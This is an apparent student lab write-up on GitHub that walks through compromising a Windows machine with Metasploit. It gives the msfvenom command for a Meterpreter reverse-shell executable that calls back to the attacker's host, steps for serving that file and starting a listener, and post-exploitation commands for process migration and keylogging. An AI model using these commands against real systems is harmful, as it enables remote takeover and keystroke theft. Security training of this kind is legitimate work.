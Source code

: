 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/54fd799e-0076-4a17-bf93-6dbc1aa42616)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp 
LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/04ceff39-1fbe-4361-bca3-b851daad372f)

copy the fun.exe into the apache /var/www/html folder 
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/ac2a0aa4-7bde-4410-a933-304df04ce31f)

Start apache server sudo systemctl apache2 start
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/540832c2-a032-4a9a-848b-e14f860b2bd5)

Check the status of apache2
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/a57a2348-c4de-4fb2-a465-904b37cfb9b0)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set 
LHOST 0.0.0.0 exploit
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/9aa19a10-610e-4743-83cd-f59011002911)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the
IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/7ee54804-21c1-4c37-9aea-468f1c00dda1)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/410a522c-76c1-4167-be8e-802769ae87f8)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/0f965d4a-97b7-4797-9966-75188d713fc3)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent,
we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. 
Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/84ffdbba-6b4f-446e-8185-af7fef514caa)

keyscan_dump Shows the keystrokes captured so far 
![image](https://github.com/AsinVardhini/Compromising-windows-using-Metasploit/assets/119417735/f5f4a0a2-39cf-4592-9459-4840c30e9745)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
